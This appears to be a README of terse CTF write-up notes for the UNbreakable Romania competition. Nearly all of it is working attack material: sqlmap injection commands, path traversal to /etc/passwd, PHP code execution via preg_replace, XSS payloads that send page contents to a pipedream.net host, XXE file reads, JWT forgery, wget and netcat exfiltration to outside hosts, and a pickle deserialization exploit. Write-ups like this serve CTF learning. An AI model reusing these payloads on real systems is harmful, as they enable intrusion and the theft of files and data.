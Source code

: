 # writeups

## https://blog.kuhi.to/unbreakable-romania-2-writeup

### Small data leak

sqlmap -u http://35.198.183.125:30321/user?id=1;
sqlmap -u http://35.198.183.125:30321/user?id=1 --dbs
sqlmap -u http://35.198.183.125:30321/user?id=1 -D public --tables
sqlmap -u http://35.198.183.125:30321/user?id=1 -D public -T 'ctf{70ff919c37a20d6526b02e88c950271a45fa698b037e3fb898ca68295da' --columns


### File Crawler

http://34.141.25.94:32191/local?image_name=..//..//..//etc/passwd
http://34.141.25.94:32191/local?image_name=..////tmp//flag


### Substitute
http://35.246.170.233:31993/?vector=/Admin/e&replace=phpinfo()
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls -l")
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls here_we_dont_have_flag -l")
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("cat here_we_dont_have_flag/flag.txt")


### manual-review
```
<script>
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net"
</script>
```

### syntax check

burpsuite
```
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "/etc/passwd">
]>
<foo>&exfiltrate;</foo>
```

```
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag">
]>
<foo>&exfiltrate;</foo>
```
### Under Construction
https://github.com/ticarpi/jwt_tool
```
python3 jwt_tool.py -t http://35.198.93.134:30791/api/app/admin -rc
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTIsImlhdCI6MTYzNTkzNjY4OCwiZ
XhwIjoxNjM2MDIzMDg4fQ.tQ2KlBU8tI5V1Akiqhwy2LSEOF9oBTvnYFs_xgwro04" -C -d
~/sss.txt 
```
https://jwt.io/

### Downloader v1

ngrok needed

ngrok http 7777

nc - lvnp 7777

https://eoifpwfcq85jqhy.m.pipedream.net/test.php --post-file '/var/www/html/flag.php'


###  Framable
```
<script>
    let html = document.body.innerHTML;
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net?bob=" + btoa(html)
</script>
```
atob('')

### alfa-cookie

cmd = ('ls -lah | nc 2.tcp.ngrok.io 17855')

https://blog.kuhi.to/unbreakable-romania-2-writeup

### Rundown
```
curl -X POST http://35.246.170.233:32274/ > o.html
```

```
import pickle as cPickle
import base64
import os
import string
import requests
import time
class Exploit(object):
    def __reduce__(self):
        return (eval, ('eval(open("flag","r").read())', ))
def sendPayload(p):
    newp = base64.urlsafe_b64encode(p).decode()
    headers = {'Content-Type': 'application/T3jv1l'}
    r = requests.post("http://34.107.45.139:30396/",headers=headers,data=newp)
    return r.text
    
payload_dec = cPickle.dumps(Exploit(), protocol=2)
print("ctf{" + sendPayload(payload_dec).split("ctf{")[1].split("}")[0] +"}")
```
